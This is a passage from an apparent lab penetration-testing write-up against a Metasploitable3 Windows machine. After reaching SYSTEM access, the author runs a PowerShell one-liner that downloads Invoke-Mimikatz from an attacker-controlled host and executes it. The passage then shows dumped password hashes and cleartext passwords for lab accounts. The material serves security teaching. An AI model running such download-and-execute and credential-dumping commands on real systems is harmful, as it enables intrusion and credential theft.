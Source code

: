 With `SYSTEM` level access, I was able to invoke `mimikatz` with the `nishang` post exploitation framework to gather the credentials of users that have previously logged into the system:

```
PS C:\Windows\system32>whoami
nt authority\system
PS C:\Windows\system32>iex(New-Object System.Net.WebClient).DownloadString("http://172.28.128.1:8000/Invoke-Mimikatz.ps1")

  .#####.   mimikatz 2.1.1 (x64) built on Sep 15 2017 17:58:17
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 689354 (00000000:000a84ca)
Session           : Interactive from 0
User Name         : boba_fett
Domain            : METASPLOITABLE3
Logon Server      : METASPLOITABLE3
Logon Time        : 9/1/2020 12:38:02 PM
SID               : S-1-5-21-13609554-1851907898-2084865544-1014
        msv :
         [00000003] Primary
         * Username : boba_fett
         * Domain   : METASPLOITABLE3
         * LM       : 89c23eda848454f62d7e56f026ce3b71
         * NTLM     : d60f9a4859da4feadaf160e97d200dc9
         * SHA1     : 92570ca437898c4456928679fac91dc523371d16
        tspkg :
         * Username : boba_fett
         * Domain   : METASPLOITABLE3
         * Password : mandalorian1
        wdigest :
         * Username : boba_fett
         * Domain   : METASPLOITABLE3
         * Password : mandalorian1
        kerberos :
         * Username : boba_fett
         * Domain   : METASPLOITABLE3
         * Password : mandalorian1
        ssp :
        credman :

Authentication Id : 0 ; 105010 (00000000:00019a32)
Session           : Service from 0
User Name         : sshd_server
Domain            : METASPLOITABLE3
Logon Server      : METASPLOITABLE3
Logon Time        : 9/1/2020 12:33:28 PM
SID               : S-1-5-21-13609554-1851907898-2084865544-1002
        msv :
         [00000003] Primary
         * Username : sshd_server
         * Domain   : METASPLOITABLE3
         * LM       : e501ddc244ad2c14829b15382fe04c64
         * NTLM     : 8d0a16cfc061c3359db455d00ec27035
         * SHA1     : 94bd2df8ae5cadbbb5757c3be01dd40c27f9362f
        tspkg :
         * Username : sshd_server
         * Domain   : METASPLOITABLE3
```
